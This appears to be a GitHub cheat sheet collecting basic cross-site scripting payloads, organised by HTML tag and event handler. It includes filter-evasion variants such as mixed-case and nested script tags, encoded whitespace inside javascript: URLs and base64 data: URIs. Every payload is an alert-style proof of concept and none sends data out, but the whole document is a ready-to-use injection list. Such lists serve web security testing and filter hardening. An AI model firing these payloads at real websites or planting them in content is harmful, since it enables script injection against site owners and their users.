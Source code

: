 # A Collection of XSS Payload

Only some basic payloads, without using any encoding tricks.

### SCRIPT Basic Payload

```
<script>alert(123);</script>
<script>alert(123)</script>
<script>alert`123`</script>
<script>alert("XSS")</script>
<script>alert('XSS')</script>
<script>alert(/XSS/)</script>
<script>alert(String.fromCharCode(88,83,83))</script>
<script>alert(document.domain)</script>
<sCRipT>alert(123)</sCRipT>
<scr<script>ipt>alert(123)</scr<script>ipt>

<script>prompt(123)</script>
<script>confirm(123)</script>
```

### IMG Payload

```
<img src=x onerror=alert(123);>
<img src=x onerror=alert(123)>
<img src=x onerror=alert`123`>
<img src=x onerror=alert(123)//abc  >
<img src=x onerror="alert(123)">
<img src=x oneonerrorrror=alert(String.fromCharCode(88,83,83))>
```

> **NOTE:** Other tags that could use "src" attribute: **&lt;audio&gt;, &lt;video&gt;, &lt;script&gt;, &lt;iframe&gt;, &lt;embed&gt;**

```
<img/src='x'/onerror=alert(123)>
<img/src/onerror=alert(123)>
```

> **NOTE:** Other tags that could be used like this: **&lt;audio&gt;, &lt;video&gt;, &lt;script&gt;**

```
<embed src=x onload=alert(123)>
<iframe src=x onload=alert(123)>
<iframe/src/onload=alert(123)>
```

### IFRAME Payload

```
<iframe src=x onload=alert(123)>
<iframe/src/onload=alert(123)>
<iframe src="javascript:alert(123)">
<iframe src=javascript:alert(123)>
<iframe src=javascript:alert`123`>
<iframe/src=javascript:alert(123)>
<iframe/src="data:text/html,<svg/onload=alert(123)>">
<iframe/src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMTIzKT4=">

<embed/src="data:text/html,<svg/onload=alert(123)>">
<embed/src="data:text/html;base64,PHN2Zy9vbmxvYWQ9YWxlcnQoMTIzKT4=">

<object data="data:text/html,<script>alert(1)</script>">
<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg==">
```

```
<iframe src="jav&#x09;ascript:alert(123)">
```

> **NOTE:** Embed encoded tab.


```
<iframe src="jav&#x0A;ascript:alert(123)">
```

> **NOTE:** Embed encoded newline.

```
<iframe src="jav&#x0D;ascript:alert(123)">
```

> **NOTE:** Embed encoded carriage return.

### SVG Payload

```
<svg onload=alert(123)>
<svg onload=alert(123)//abc >
<svg/onload=alert(123)>
<svg id=alert(123) onload=eval(id)>
```

### Other Payloads

```
<a href="javascript:alert(123)">123</a>
<a href=javascript:alert(123)>123</a>
<a/href="javascript:alert(123)">123</a>
```

```
<body onload=alert(123)>
<body/onload=alert(123)>
<body/onload=alert(123)//abc >
```

> **NOTE:** Other tags that could be used like this: **&lt;style&gt;**

```
<input onmouseover=alert(123)>
<input/onmouseover=alert(123)>
<input autofocus onfocus=alert(123)>
```

> **NOTE:** Other tags that could be used like this: **&lt;select&gt;, &lt;testarea&gt;**

```
<details open ontoggle=alert(123)>
<details/open/ontoggle=alert(123)>
<details/open/ontoggle="alert(123)">
```

```
<script>
foo="text</script><script>alert(123)</script>";
</script>

<script src="data:;base64,YWxlcnQoZG9jdW1lbnQuZG9tYWluKQ=="></script>
```

```
<var onmouseover=alert(123)>var</var>
<var/onmouseover=alert(123)>var</var>
```

```
<x onclick=alert(123)>click here
<x/onclick=alert(123)>click here
<x onmouseover=alert(123)>mouseover here
<x/onmouseover=alert(123)>mouseover here
```
